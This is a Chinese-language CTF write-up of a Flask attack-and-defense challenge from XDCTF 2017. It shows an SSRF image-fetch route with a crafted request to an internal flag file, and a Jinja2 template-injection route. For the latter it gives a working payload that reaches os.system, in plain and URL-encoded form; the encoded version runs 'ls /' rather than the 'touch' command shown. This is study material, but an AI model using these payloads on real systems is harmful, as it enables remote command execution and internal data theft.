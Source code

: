 ## 环境编译
```
docker-compose build
docker-compose up -d
```
该题是2017年XDCTF对抗赛的第一题

## 漏洞一

### SSRF漏洞
在app目录下
排除了flask的模版和静态文件等杂项，路由主要集中在auth和main文件中，先看auth
在app目录下的auth文件夹中,先看一下他的初始化文件__init__.py
![](luffy1.png)

可以看到,应用使用了蓝厂函数，url前缀是auth，然后审查views.py,在众多的路由中，最有问题的是

```
@auth.route('/getimage/<url>')
def getimage(url):
    url = base64.b64decode(url)
    img = requests.get(url)
    return img.content
```

这很显然是一个ssrf漏洞，然后我们可以构造请求

```
http://127.0.0.1:8001/auth/getimage/aHR0cDovLzEwLjAuMC4yMTEvZmxhZy50eHQ=
```

![](luffy2.png)


#### SSTI 模版注入漏洞
在auth的开头，直接调用了

```
from jinja2 import Template
```

然后在145行一个路由直接调用了该函数

```
   145	@auth.route('/test', methods=['GET', 'POST'])
   146	def test():
   147	    if request.method == 'POST':
   148	        if valid_login(request.form['username'], request.form['password']):
   149	            f = open('/tmp/' + request.form['username'], 'w+')
   150	            f.write(request.form['x'])
   151	            f.close()
   152	            f = open('/tmp/' + request.form['username'], 'r')
   153	            txt = f.read()
   154	            template = Template(txt)
   155	            return template.render()
   156	    else:
   157	        flash('just a test')
   158	        return redirect(url_for('auth.login'))
   159
   160
   161	def valid_login(username, password):
   162	    if username == base64.b64decode(password):
   163	        return True
   164	    else:
   165	        return False
```

由于模版内容是可以被控制的，导致了SSTI的漏洞

将payload

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{c.__init__.func_globals['linecache'].__dict__['os'].system('touch /1.txt') }}
{% endif %}
{% endfor %}
```

编码之后
```
%7b%25%20%66%6f%72%20%63%20%69%6e%20%5b%5d%2e%5f%5f%63%6c%61%73%73%5f%5f%2e%5f%5f%62%61%73%65%5f%5f%2e%5f%5f%73%75%62%63%6c%61%73%73%65%73%5f%5f%28%29%20%25%7d%0a%7b%25%20%69%66%20%63%2e%5f%5f%6e%61%6d%65%5f%5f%20%3d%3d%20%27%63%61%74%63%68%5f%77%61%72%6e%69%6e%67%73%27%20%25%7d%0a%7b%7b%63%2e%5f%5f%69%6e%69%74%5f%5f%2e%66%75%6e%63%5f%67%6c%6f%62%61%6c%73%5b%27%6c%69%6e%65%63%61%63%68%65%27%5d%2e%5f%5f%64%69%63%74%5f%5f%5b%27%6f%73%27%5d%2e%73%79%73%74%65%6d%28%27%6c%73%20%2f%27%29%20%7d%7d%0a%7b%25%20%65%6e%64%69%66%20%25%7d%0a%7b%25%20%65%6e%64%66%6f%72%20%25%7d
```

![](luffy4.png)

### ssti漏洞2

[git源码地址](https://github.com/WangYihang/Attack-With-Defense-Challenges)

[漏洞详细介绍](http://skysec.top/2018/04/15/Long-Ago-AWD-Flasky/)

[模版注入的payload](https://www.xmsec.cc/ssti-and-bypass-sandbox-in-jinja2/)

[模版注入payload2](https://kevien.github.io/2018/01/16/%E4%BB%8E%E4%B8%80%E9%81%93pentesterlab%E7%9A%84%E9%A2%98%E7%9B%AE%E8%AF%B4%E8%B5%B7/)


